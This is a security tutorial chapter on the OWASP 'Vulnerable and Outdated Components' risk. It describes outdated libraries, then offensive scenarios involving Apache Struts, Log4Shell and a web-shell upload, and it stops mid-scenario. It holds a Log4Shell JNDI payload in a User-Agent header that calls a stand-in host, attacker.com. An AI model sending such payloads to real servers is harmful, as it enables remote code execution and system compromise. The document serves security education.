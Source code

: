## 🔥 Chapter 1: Vulnerable and Outdated Components – Deep Dive

---

### 🚨 What are Vulnerable and Outdated Components?

This vulnerability occurs when applications **use components (libraries, frameworks, or platforms)** with **known security flaws**, and these flaws are left **unpatched or ignored**.

🔎 **Example:** A web app still using **Log4j v2.14.1**, which is vulnerable to **Log4Shell (CVE-2021-44228)** — an RCE bug that allows attackers to execute arbitrary code remotely.

These components may be:

* Web servers (e.g., Apache, Nginx)
* Frameworks (e.g., Spring, Django, Laravel)
* Frontend libraries (e.g., jQuery)
* Dependencies pulled via package managers (npm, pip, Maven, etc.)

---

### 🧠 Why Is It Critical?

* OWASP Top 10 #6 (2021): **Vulnerable and Outdated Components**
* Leads to **Remote Code Execution, data leaks, privilege escalation**, and full system compromise.
* Exploitable even if the application logic is secure.
* **Silent killers**: They often sit unnoticed in backend dependencies, waiting for exploit kits.

---

### 💀 Realistic Offensive Scenarios:

#### ☠️ Scenario 1: Outdated Apache Struts

An attacker finds the application running an **Apache Struts** version vulnerable to **CVE-2017-5638**. They exploit it using a crafted Content-Type header to trigger OGNL injection and gain **remote shell access**.

#### ☠️ Scenario 2: Log4j (Log4Shell)

A bug bounty hunter sends a request like:

```http
User-Agent: ${jndi:ldap://attacker.com/a}
```

On vulnerable servers, Log4j resolves this, connects to the attacker’s server, and **executes a malicious payload**, giving **reverse shell** access.

#### ☠️ Scenario 3: jQuery File Upload Arbitrary File Upload

The web app uses an old jQuery file upload plugin. The attacker uploads a PHP web shell (`shell.php`) and executes it from the browser:
